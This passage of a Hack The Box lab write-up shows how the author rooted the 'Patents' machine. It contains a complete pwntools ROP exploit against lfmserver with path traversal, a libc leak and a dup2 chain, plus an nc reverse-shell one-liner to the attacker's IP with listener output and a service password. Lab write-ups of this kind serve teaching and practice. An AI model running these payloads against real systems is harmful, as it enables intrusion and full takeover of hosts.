vZ28v/J20zUGlLz09KVO1uwM92S8XDwBq0sB6ljezryxfbNT9PiXKNslD/0UQN6WbLZGM2uAJFIW
t6qeIjNJfVR/vNiGN/khbsfc09cy3hbH/vEzxM52P2Ey+PFNZkr5xUkFstghJLvx1PPsWfBD+GwS
a0GeyOW7tuyyHwu9TvUQfK+s3UuOj4SjcZGJhHTEJyhQUDHCf3euhv8r+Ff+D2F5WVlJFT1REUkV
WWXx/9Pr+N/I/8jA+q/5H9lYmNn+mf/pn/kfmZnZ2P7mf/xPoGTiauLoTEisZGJj52piTGhjYudG
aGphbeJER6giIalMqCSqIK8sqSKvpEn49U5ejlBZTY4YBkbF3MKJ0PFfGzsRGtnZ2Fg4E7IbsbEx
cDKxMJiyMLIYMBkZchiYMjCYsrOaGhuxG5kamjKwsLOymrLSwcCQECpYmxg4mRCa2DqbOBI6m5v8
f4zYmDg5GZiZEJraORJ62Lk4EhqZG9ia/eOOjIWtiRPhP3I5W9iafZlws3A2J6Qgofh6YW1NaGhC
aGFma+doYvyd0MDW+OtBaGJj7+zxP1k0MLT7x9n/b110MCRfVuRtCQ0dDWyNzAltDJy+nPn6SPjf
VRI62/1j9d+FnU2MuWBIoG1N/h0eLkLCr9AIisiK/pcPrU1tnEwcXf+xA/PfLe7/H/yr/cuKKomL
6v1f0fT/xT9tnI2F5f9n/ifGf83/8j9v/4zsf/O//Wf472n//917/Ze//OUvf/nLX/7yl7/85S9/
+ctf/vKXv/zlL3/5y1/+8n9f/l+WXf6rAEgDAA==
```

**Localhost:**

```python
root@gr4n173:~$ echo "$(cat file.txt)" | base -d > repo.tar
root@gr4n173:~$ tar -zxvf repo.tar
arg_parsing.c  file.h  lfm.h           lfmserver.h  Makefile  params_parsing.c  README       thread.c                                    
arg_parsing.h  files   lfmserver.c     log.c        md5.c     params_parsing.h  process.c    socket_io.c  thread.h                                    
file.c         lfm.c   lfmserver.conf  log.h        md5.h     process.h    socket_io.h                       
```

Now I got file and you can download [here](public/files/Patents.zip) and the code of the `lfmserver` if you are unknown about the lfmserver then visit [here](https://inigo.katxi.org/devel/lfm/).

## ROP to Root

Now to get the root, I made a simple exploit to pwn the shell by using `ROP`. Here I will go through the exploit but detail about the `ROP with aslr enabled` will be explained in my next post of `Exploitation&Pwning part 2` Series. 

```python
#exploit.py
#!/usr/bin/env python

from pwn import *

host = 'patents.htb'
port = 8888
fd = 6
bin = ELF('./lfmserver')
libc = ELF('libc.so.6')
time = 0.1
hash = "26ab0db90d72e28ad0ba1e22ee510510"
user = "lfmserver_user"
password = "!gby0l0r0ck$$!"

def gen():
    return remote(host, port)

def encode(string):
    return "".join("%{0:0>2}".format(format(ord(char), "x")) for char in string)

def genRequest(payload):
    request = "%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/proc/sys/kernel/randomize_va_space%x00%61%61%61%61%61%61%61%61%62%61%61%61%61%61%61%61%63%61%61%61%61%61%61%61%64%61%61%61%61%61%61%61%65%61%61%61%61%61%61%61%66%61%61%61%61%61%61%61%67%61%61%61%61%61%61%61%68%61%61%61%61%61%61%61%69%61%61%61%61%61%61%61%6a%61%61%61%61%61%61%61%6b%61%61%61%61%61%61%61%6c%61%61%61%61%61%61%61%6d%61%61%61%61%61%61%61%6e%00{}".format(encode(payload))
    request = "CHECK /{} LFM\r\nUser={}\r\nPassword={}\r\n\r\n{}\n".format(request, user, password, hash)
#   log.info('Request: ' + request)
    return request

p = gen()
poprdi = 0x405c4b # pop rdi; ret;
poprsi = 0x405c49 # pop rsi; pop r15; ret;
nop =  0x40251f # nop; ret;

rop = p64(poprdi) + p64(fd) + p64(poprsi) + p64(bin.got['dup2']) + p64(0) + p64(nop) + p64(bin.symbols['write'])
p.sendline(genRequest(rop))

leak = p.recvall().split('\n')[4][1:7]
leak = u64(leak.ljust(8, '\x00'))
libc.address = leak - libc.symbols['dup2']
log.info("Libc base: " + hex(libc.address))

cont = raw_input('Press Enter to continue.')
p = gen()

payload = ''
payload += p64(poprdi)
payload += p64(fd)
payload += p64(poprsi)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(bin.symbols['dup2'])

payload += p64(poprdi)
payload += p64(fd)
payload += p64(poprsi)
payload += p64(0x1)
payload += p64(0x0)
payload += p64(bin.symbols['dup2'])

payload += p64(poprdi)
payload += p64(fd)
payload += p64(poprsi)
payload += p64(0x2)
payload += p64(0x0)
payload += p64(bin.symbols['dup2'])

rop = ''
rop += payload
rop += p64(poprdi)
rop += p64(1)
rop += p64(poprsi)
rop += p64(bin.got['dup2'])

rop += p64(0)
rop += p64(nop)
rop += p64(bin.symbols['write'])
rop += p64(nop)
rop += p64(libc.address + 0x501e3)

p.sendline(genRequest(rop))
p.recvrepeat(0.2)
p.sendline('id ; hostname')
p.interactive()
```

At first I used the hash of `lfmserver_user` along with the password `!gby0l0r0ck$$!` to valid the server creds. Here I used two function one to decode and next one to disable the `ASLR` and `overflow the uffer`. After buffer was overflowed Address was `leaked from GOT` to get the `libc` version. Then used a `ROP Chain`with `dup2` to get the reverse shell and finally I got the shell.
But here a shell was killed after certain sec so I created a new listener and used the reverse shell too and I finally got the shell.

```python
root@gr4n173:~/mystuff/htb/patents/repo/$ python exploit.py
[*] '/home/gr4n173/mystuff/htb/patents/repo/lfmserver'                                                                              
    Arch:     amd64-64-little                                                                                                                         
    RELRO:    Partial RELRO                                                                                                                           
    Stack:    No canary found                                                                                                                         
    NX:       NX enabled                                                                                                                              
    PIE:      No PIE (0x400000)                                                                                                                       
[*] '/home/gr4n173/mystuff/htb/patents/repo/libc.so.6'                                                                              
    Arch:     amd64-64-little                                                                                                                         
    RELRO:    Partial RELRO                                                                                                                           
    Stack:    Canary found                                                                                                                            
    NX:       NX enabled                                                                                                                              
    PIE:      PIE enabled                                                                                                                             
[+] Opening connection to patents.htb on port 8888: Done                                                                                              
[+] Receiving all data: Done (94B)                                                                                                                    
[*] Closed connection to patents.htb port 8888                                                                                                        
[*] Libc base: 0x7ff8408a3000
Press Enter to continue.
[+] Opening connection to patents.htb on port 8888: Done
[*] Switching to interactive mode                                                                                                                     
LFM 200 OK                                                                                                                                            
Size: 32                                                                                                                                              
                                                                                                                                                      
26ab0db90d72e28ad0ba1e22ee510510                                                                                                                      
\x9a@V @\x00\x00\x00x\xa2@\x89\x90@ @uid=0(root) gid=0(root) groups=0(root)
patents
$ ls
files
firewall.txt
lfmserver
lfmserver.log
$ whoami
root
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 5555 >/tmp/f
```

**Listner On:**

```python
root@gr4n173:~$ nc -lvnp 5555
listening on [any] 5555 ...                                                                                                                           
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.173] 37032                                                                                          
/bin/sh: 0: can't access tty; job control turned off                                                                                                  
# whoami                                                                                                                                              
root
# python -c "import pty;pty.spawn('/bin/bash')"                                                                                                       
root@patents:~# ls -al 
ls -al 
total 23
drwxr-xr-x  7 root root  1024 Dec  3 14:25 .
drwxr-xr-x 23 root root  4096 Jan 12 00:03 ..
lrwxrwxrwx  1 root root     9 May 22  2019 .bash_history -> /dev/null
drwx------  2 root root  1024 May 21  2019 .cache
drwx------  3 root root  1024 May 21  2019 .gnupg
drwxr-xr-x  3 root root  1024 Dec  3 14:25 .local
drwx------  2 root root 12288 May 21  2019 lost+found
drwxr-xr-x  3 root root  1024 May 21  2019 snap
-rw-------  1 root root  1606 May 22  2019 .viminfo                                 
```  

This way I got the shell but I can't see the root flag inside the `home` directory then I was like `Hmm..... What the heck?`. So I checked every possible way along with commands but unable to figure it out. But Recently I got into the problem about my `dpkg` folder so I used the live usb and solved that problem. For that I first had to `mount` my harddisk from certain `/dev/sda{number}` where my OS was located to any directory I like and used `chroot` to edit or update my file. After mounting I `update && upgrade` my linux  and my problem was solved. These are resources which I used to solve my problem [here1](https://askubuntu.com/questions/419304/dpkg-divert-error-rename-involves-overwriting-usr-lib-xorg-protocol-txt-wit), [here2](https://ubuntuforums.org/archive/index.php/t-1732258.html) and [here3](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=950533). If you ever encounter with `dpkg` problem then you can refer this link or you can ping me in `discord` too. 

I described a lot about recent problem, now let's come to point. As I solved my problem by `mount` & `unmount` and I have that command in my mind. Then I tried the same basic command to see if there are any other disk available.

```
root@patents:~#lsblk 
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT                                                                                                            
loop0    7:0    0 54.2M  1 loop /snap/lxd/10756                                                                                                       
loop1    7:1    0 66.7M  1 loop /snap/lxd/9239                                                                                                        
loop2    7:2    0 54.9M  1 loop /snap/lxd/12631                                                                                                       
loop3    7:3    0 89.1M  1 loop /snap/core/8268                                                                                                       
loop4    7:4    0 89.1M  1 loop /snap/core/8039                                                                                                       
sda      8:0    0   25G  0 disk                                                                                                                       
├─sda1   8:1    0    1M  0 part                                                                                                                       
├─sda2   8:2    0   16G  0 part /                                                                                                                     
├─sda3   8:3    0    1G  0 part /boot                                                                                                                 
└─sda4   8:4    0    2G  0 part /home                                                                                                                 
sdb      8:16   0  512M  0 disk                                                                                                                       
└─sdb1   8:17   0  511M  0 part /root                                                                                                                 
sr0     11:0    1 1024M  0 rom
```

Then I was like `Hell.....Yea!!`. Now I mounted and read the `root flag`.

```python
root@patents:~# mkdir /tmp/file                                                                                                                       
mkdir /tmp/file                                                                                                                                       
root@patents:~# mount /dev/sda2 /tmp/file                                                                                                             
mount /dev/sda2 /tmp/file  
root@patents:/tmp/file/root# cat root.txt                                                                                                             
cat root.txt                                                                                                                                          
d63b0********************** 
```

This way I got the root of `Patents` box and learned alot from this box. So I would like to thank creator of this box `gbyolo` for such an awesome box.

I will be posting writeup of next box after box retired and I have started series of `Exploitation&Pwing` where you can learn pwn technique from basic visit here my [First Post](https://gr4n173.github.io/hackpackctf) about this series. I would like to Thank readers for being with me through out this writeup.

Feedback are really appreciated !!

Tweet about this writeup if you like.

You can see more blog at my medium here: [gr4n173](https://medium.com/@gr4n173).


